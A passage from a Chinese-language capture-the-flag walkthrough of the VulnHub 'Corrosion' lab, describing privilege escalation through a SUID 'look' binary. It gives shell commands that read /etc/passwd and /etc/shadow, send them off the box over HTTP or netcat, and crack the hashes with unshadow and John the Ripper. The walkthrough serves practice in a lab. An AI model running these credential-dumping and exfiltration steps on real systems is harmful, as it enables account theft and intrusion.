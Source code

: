 

切换目录查看

![](D:\stu\vulnhub\corrosion靶场\pic-2\27.jpg)



尝试查看内容，无权限

![](D:\stu\vulnhub\corrosion靶场\pic-2\28.jpg)

然后发现，这是一个命令，用法都有

简单介绍一个look命令，`look` 命令是一个用于在 Unix 和类 Unix 系统中查找单词的工具。它的主要功能是根据给定的前缀从字典文件中查找匹配的单词。



这里`sudo -l`，不允许使用，所以`find`找到的，能用的也只有这个，所以现在从linux中存储用户名和密码的地方入手

在网站`gtfobins`寻找用法

![](D:\stu\vulnhub\corrosion靶场\pic-2\29.jpg)

使用look，把`hash`复制，到本地使用`john`等破解

![](D:\stu\vulnhub\corrosion靶场\pic-2\30.jpg)

同样的方法，把`/etc/passwd`也复制到本地的文件中



或者使用

```shell
./look '' "/etc/passwd" > ../user.txt
./look '' "/etc/shadow" > ../shadow.txt
cd ..
python3 -m http.server 9999
wget 192.168.1.33:9999/user.txt
wget 192.168.1.33:9999/shadow.txt	
当然，前提是有wget，如没有，还可以使用nc
nc 192.168.1.16 9999 < user.txt	然后kali监听即可
```

![](D:\stu\vulnhub\corrosion靶场\pic-2\32.jpg)



##### 提权2，破解密码

然后使用`unshadow`将两个文件合并

![](D:\stu\vulnhub\corrosion靶场\pic-2\31.jpg)

使用`join`进行破解

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt userpass.txt
```
